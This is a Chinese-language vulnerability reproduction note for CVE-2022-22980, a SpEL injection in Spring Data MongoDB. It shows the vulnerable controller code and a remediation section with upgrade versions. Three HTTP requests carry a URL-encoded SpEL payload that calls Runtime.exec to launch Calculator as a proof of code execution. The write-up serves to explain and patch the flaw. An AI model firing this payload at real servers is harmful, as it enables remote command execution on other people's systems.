




## Spring Data MongoDB SpEL  CVE-2022-22980


### 漏洞复现


findAllByIdLike是会触发漏洞

```http
POST /demo HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```





findAllByIdLike2也是会触发漏洞

```http
POST /demo2 HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```





findAllByIdLike3是不会触发漏洞

```http
POST /fix HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: gzip
Content-Length: 175
Content-Type: application/x-www-form-urlencoded
User-Agent: curl/7.79.1

keyword=T%28java.lang.String%29.forName%28%27java.lang.Runtime%27%29.getRuntime%28%29.exec%28%27%2FSystem%2FApplications%2FCalculator.app%2FContents%2FMacOS%2FCalculator%27%29
```




产生漏洞的代码

``` java
package com.sumsec.bug.spring.data.mongodb.controller;

import com.sumsec.bug.spring.data.mongodb.repository.DemoRepository;
import java.util.List;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class DemoController {

    private final DemoRepository demoRepository;

    public DemoController(DemoRepository demoRepository) {
        this.demoRepository = demoRepository;
    }

    @RequestMapping(value = "/demo")
    public List<?> demo(@RequestParam(name = "keyword") String keyword) {
        return demoRepository.findAllByIdLike(keyword);
    }

    @RequestMapping(value = "/demo2")
    public List<?> fix(@RequestParam(name="keyword") String keyword){
        return demoRepository.findAllByIdLike2(keyword);
    }

    @RequestMapping(value = "/fix")
    public List<?> fix2(@RequestParam(name="keyword") String keyword){
        return demoRepository.findAllByIdLike3(keyword);
    }
}

```


---

### 漏洞成因

在2014年SpEL支持了Spring Data JPA Query，相关文章[**SpEL support in Spring Data JPA @Query definitions**](https://spring.io/blog/2014/07/15/spel-support-in-spring-data-jpa-query-definitions)。





---

### 修复方案


* 升级到Spring Data MongoDB 3.4.1和3.3.5
* 使用[0]代替 ?0


---

### 参考

https://github.com/spring-projects/spring-data-examples/tree/main/jpa/security/src/main/java/example/springdata/jpa/security